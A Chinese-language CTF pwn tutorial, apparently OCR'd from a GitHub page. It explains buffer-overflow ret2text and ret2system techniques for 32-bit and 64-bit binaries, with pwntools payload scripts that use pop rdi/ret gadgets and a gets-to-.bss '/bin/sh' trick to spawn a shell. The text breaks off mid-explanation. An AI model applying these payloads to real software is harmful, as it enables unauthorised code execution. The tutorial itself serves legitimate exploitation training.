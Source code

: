 有后门也可以溢出，但是有小心机，需要利用一定程序内部的变化去溢出到后门函数

**1.** 比如“I”->“IronMan”，最后在strcpy的时候发生了溢出，这里的溢出值要计算。

**2.** 在函数内部需要填写一些参数符合要求如：payload='a'*(0x6c+4) + p32(flag) + p32(0) + p32(0x36c) + p32(0x36d)



##### ret2system:

没有现成的backdoor但是有system函数和bin/sh字段可以调用，我们可以手动构建一个backdoor。

对于32位：

如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，使用 p32 函 数将整数值0转换为4字节的字符串。这个字符串将作为 system 函数的第二个参数，用于提供一个指向 空值的指针作为 system 函数的第二个参数。当然在这里使用其他任意4个字符进行覆盖也可以 如‘aaaa’,’bbbb’等均可。 p32(bin_sh) : 这部分使用 p32 函数将 bin_sh 的地址转换为一个4字节的字符串。 bin_sh 通常是指向包含要执行的命令的字符串（如 /bin/sh ）的指针。该字符串将作为 system 函数的第一个参数。 （可以看出参数是倒着一个个输入的）

对于64位：

与32位不同的是它的穿参方式不同，需要利用pop rdi和ret这两个指令实现参数传递

pop_rdi 指令用于将值从栈上弹出并存储到寄存器rdi中。在这个payload中，它用于准备传递 给 system 函数的第一个参数。

```python
#可以用sh代替bin/sh
#sh还可以等价于$0
#32位
system = elf.sym['system']
bin_sh = 0x8048750#查找地址

payload = 'a'*(0x12+4) + p32(system) + p32(0) + p32(bin_sh)
io.sendline(payload)

#64位
elf = ELF('./pwn')
system = elf.sym['system']
bin_sh = 0x400808
pop_rdi = 0x4007e3  # 0x00000000004007e3 : pop rdi ; ret
ret = 0x4004fe      # 0x00000000004004fe : ret 

payload = 'a'*(0xA+8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
io.sendline(payload)

```

```python
#当没有bin/sh和sh的字符串时，我们可以利用现有的发送去发送一个bin/sh
#或者也可以直接套板子ret2libc直接求解也是可以的
#32位
elf = ELF('./pwn')
system = elf.sym['system']
buf2 = 0x804B060 #bss段
gets = elf.sym['gets']
pop_ebx = 0x8048409     # 0x08048409 : pop ebx ; ret

payload = cyclic(0x6c+4) + p32(gets) + p32(pop_ebx) + p32(buf2) + p32(system) + 'aaaa' + p32(buf2)

io.sendline(payload) 
io.sendline("/bin/sh")
'''
1. cyclic(0x6c+4) : 这部分使用pwntools库中的 cyclic 函数生成一个循环模式的字符串，长
度为0x6c+4。循环模式字符串用于进行调试和定位溢出点。当然这里你也可以继续使用 ‘a’*
(0x6c+4)也是没有问题的。

2. p32(gets) : 这部分使用pwntools的 p32 函数将 gets 函数的地址转换为一个4字节的字符
串。它用于将 gets 函数的地址作为返回地址覆盖到栈上。使程序在溢出时调用 gets 函数。

3. p32(pop_ebx) : 这部分使用 p32 函数将 pop_ebx 的地址转换为一个4字节的字符串。

```